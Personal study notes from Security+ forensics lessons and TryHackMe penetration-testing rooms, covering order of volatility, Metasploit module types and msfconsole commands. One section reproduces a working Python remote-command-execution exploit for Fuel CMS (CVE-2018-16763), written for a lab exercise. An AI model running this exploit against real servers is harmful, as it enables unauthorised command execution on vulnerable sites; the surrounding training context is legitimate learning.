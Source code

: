 # ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

author:: Nathan Acks  
date:: 2022-04-13

## ITPro.TV: CompTIA Security+ (SY0-601)

### Digital Forensics Concepts

Order of volatility:

* CPU cache & registers (good luck!)
* Routing tables, process tables, ARP cache, kernel stats
* (Non-Kernel) RAM
* Swap, /tmp, etc.
* Storage, VM snapshots
* Archival data, backups, logs, print-outs

Preservation and documentation notes:

* Timestamp everything
* Note timezone differences
* Written reports and logs (also use these to establish the chain of custody)
* Witness testimony
* Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

* FTK Imager
* WinHex
* Autopsy
* EnCase Forensic
* `dd`

## TryHackMe: Jr. Penetration Tester

### Vulnerability Capstone

I couldn’t get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```python
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("
[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('
' + array2[-1].replace('

',''))

		except error:
			exit('
[-] Could Not Connect To Server')

if __name__ == '__main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('
[!] Quitting')
```

* [THM-Vulnerability_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
* [THM-Vulnerability_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
* [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
* [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

### Main Components of Metasploit

Module categories:

* Auxiliary (odds-n-ends)
* Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
* Evasion (attempt to directly evade anti-malware solutions)
* Exploits
* NOPS (no-op code that can be used to pad exploits to a needed size)
* Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
* Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

* Singles (self-contained; also indicated by the use of an `_` separating “shell” from the rest of the payload name, as in `shell_reverse_tcp`)
* Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
* Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating “shell” from the rest of the payload name, as in `shell/reverse_tcp`)

### Msfconsole

You can use msfconsole as a shell, but there’s no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as “help”, though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

### Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

* `set -g` = `setg`
* `unset -g` = `unsetg`
* `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many *don’t* have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.
